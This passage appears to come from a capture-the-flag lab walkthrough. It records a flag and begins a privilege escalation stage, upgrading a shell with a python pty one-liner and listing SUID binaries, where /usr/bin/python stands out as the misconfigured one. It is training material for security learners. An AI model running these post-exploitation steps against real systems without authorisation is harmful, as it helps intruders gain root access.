 __A__:

```
THM{y0u_g0t_a_sh3ll}
```

### Privilege escalation
Now that we have a shell, let's escalate our privileges to root.
#### Answer the questions below
---

__Q__: Search for files with SUID permission, which file is weird?

Get an old friend's help for upward social mobility ...

``` bash
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$
bash-4.4$ find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
```